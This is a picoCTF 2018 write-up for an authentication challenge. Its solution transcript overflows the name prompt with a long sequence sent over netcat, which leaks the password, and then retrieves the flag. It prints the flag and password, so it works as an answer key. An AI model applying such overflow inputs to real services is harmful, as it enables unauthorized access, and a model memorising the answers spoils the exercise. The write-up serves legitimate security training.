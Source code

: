 :checkered_flag: picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}

## Solve
Can you authenticate to this [service](https://2018shell.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth) and get the flag? Connect with `nc 2018shell.picoctf.com 31045`. [Source](https://2018shell.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth.c).

## Hints
Are all the system calls being used safely?  
Some people can have reallllllly long names you know..

## Solution
```
root@kali:~/Downloads# seq -s "" 112 | nc 2018shell.picoctf.com 31045
What is your name?
Hello 123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778798081828384858687888990919293949596979899100101102103104105106107108109110111112,
Please Enter the Password.a_reAllY_s3cuRe_p4s$word_d98e8d

Incorrect Password!
root@kali:~/Downloads# nc 2018shell.picoctf.com 31045
What is your name?
user
Hello user,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_d98e8d
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
```
